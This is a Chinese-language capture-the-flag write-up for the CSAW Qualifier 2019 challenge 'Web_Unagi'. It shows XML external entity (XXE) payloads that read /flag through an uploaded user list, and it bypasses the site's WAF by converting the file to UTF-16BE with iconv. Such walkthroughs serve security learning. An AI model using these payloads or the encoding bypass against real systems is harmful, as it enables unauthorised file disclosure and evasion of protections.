






# [CSAWQual 2019]Web_Unagi

## 知识点

`xxe`

`编码绕过WAF保护的XXE`

## 解题


`About`提示`flag`在`/flag`文件，进入`Upload`发现可以上传文件，给了个上传文件的示例





先尝试上传正常文件看一下回显



除了`username`和`password`列都会显示，尝试利用`xxe`

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```



被`WAF`拦下来了，可以通过`编码`绕过`WAF`，[参考文章配枪朱丽叶](https://www.shawroot.cc/156.html)

> 一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
>
> 在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。

在`linux`使用`iconv`转编码

`1.xml`的内容

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

转`编码`为`UTF-16BE`

```bash
iconv 1.xml -f UTF-8 -t UTF-16BE -o 2.xml
```

然后上传`2.xml`，发现可以正常绕过，但是`flag`显示不全



加个`intro`元素即可

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>&xxe;</name>
<email>&xxe;</email>
<group>&xxe;</group>
<intro>&xxe;</intro>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

